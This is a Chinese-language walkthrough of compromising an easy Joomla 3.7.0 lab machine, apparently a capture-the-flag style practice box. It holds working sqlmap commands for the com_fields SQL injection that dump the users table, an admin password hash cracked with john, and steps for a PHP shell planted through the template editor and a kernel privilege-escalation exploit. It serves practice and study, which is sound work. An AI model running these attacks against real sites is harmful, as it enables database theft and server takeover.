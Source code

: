 > 报错 IDE 设备 配置不正确 虚拟机->设置->选择:磁盘/光驱IDE设备"->高级->IDE选择IDE0:0
## 靶机信息

级别:容易


## Recon

### nmap

```shell
sudo arp-scan -l
192.168.1.162   00:0c:29:58:e3:df

sudo nmap -sT --min-rate 10000 192.168.1.162 -oA tcp_scan/ports
PORT   STATE SERVICE
80/tcp open  http

sudo nmap -sT -P 80 -sV -sC 192.168.1.162
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home

扫描到使用的是Joomla
```

## Web
![[Pasted image 20231020170632.png]]
![[Pasted image 20231020173417.png]]
查看源码看到一串base64编码
```shell
aHR0cDovLzE5Mi4xNjguMS4xNjIvaW5kZXgucGhwLzItdW5jYXRlZ29yaXNlZC8xLXdlbGNvbWU=
http://192.168.1.162/index.php/2-uncategorised/1-welcome
```

## Joomscan
```shell
sudo apt install -y joomscan
joomscan --url 192.168.1.162
[+] Detecting Joomla Version
[++] Joomla 3.7.0

searchsploit Joomla 3.7.0
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                 | php/webapps/42033.txt
URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27

Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

```

### sqlmap
```shell
sqlmap -u "http://192.168.1.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbs --batch

available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys

sqlmap -u "http://192.168.1.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -
-tables --batch

sqlmap -u "http://192.168.1.162/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump

admin  | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu 
echo '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' hash
john hash
snoopy
```

![[Pasted image 20231020194812.png]]
可以上传一个php文件,上传后发现无法上传，但是可以写入

![[Pasted image 20231020195559.png]]
点击Template Preview即可触发shell

## 提权
```shell
内核漏洞提权
39772
wget 下载文件到靶机/tmp目录下，解压后按照说明执行即可
```


![[Pasted image 20231020201156.png]]


